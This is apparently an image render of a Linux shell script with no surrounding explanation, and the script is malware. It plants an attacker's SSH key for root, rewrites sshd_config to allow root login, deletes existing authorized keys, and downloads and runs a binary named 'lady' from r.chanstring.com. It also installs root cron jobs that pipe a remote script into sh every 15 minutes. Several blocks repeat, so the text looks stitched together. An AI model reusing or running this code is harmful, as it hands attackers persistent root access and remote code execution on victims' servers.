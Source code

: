 ~~~
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
    fi
fi

service lady start
systemctl start lady.service
/etc/init.d/lady start


echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
    fi
fi

service lady start
systemctl start lady.service
/etc/init.d/lady start

mkdir -p /opt

# /etc/init.d/lady stop
# systemctl stop lady.service
# pkill /opt/cron
# pkill /usr/bin/cron
~~~